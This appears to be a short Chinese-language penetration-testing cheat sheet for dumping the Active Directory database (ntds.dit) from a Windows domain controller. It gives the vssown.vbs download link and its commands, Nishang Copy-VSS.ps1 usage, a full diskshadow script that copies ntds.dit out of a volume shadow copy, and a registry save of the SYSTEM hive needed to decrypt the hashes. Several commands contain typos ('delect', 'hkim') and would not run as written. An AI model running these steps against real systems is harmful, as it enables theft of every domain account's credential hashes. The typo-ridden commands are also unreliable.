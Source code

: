- 利用vssown.vbs提取

```
下载地址
https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs
```
```
cscript vssown.vbs /start 启动
cscript vssown.vbs /create c 创建
cscript vssown.vbs /list 列出
cscript vssown.vbs /delect
```

- 使用ntdsutil的IFM(媒体创建)创建卷影拷贝

```
Nishang Copy-VSS.ps1 脚本
import-moudle .\Copy-VSS.ps1
Copy-vss
```

- 使用diskshadow导出ntds.dit(必须在c:\windows\system32中操作)

```
diskshadow.exe /? 查看帮助
将需要执行的命令导入command.txt文件
diskshadow.exe /s c:\command.txt 执行命令
```
```
导出ntds.dit的txt

//设置卷影拷贝
set context persistent nowriters
//添加卷
add volume c: alias someAlias
//创建快照
create
//分配虚拟磁盘盘符
expose %someAlias% k:
//将ntds.dit复制到c盘
exec "cmd.exe" /c copy k:\windows\NTDS\ntds.dit c:\ntds.dit
//删除所有快照
delect shadow all 
//列出系统中的卷影拷贝
list shadow all
//重置
reset
//退出
exit

diskshadow /s c:\command.txt

导出system.hive
reg save hkim\system c:\windows\temp\system.hive
```
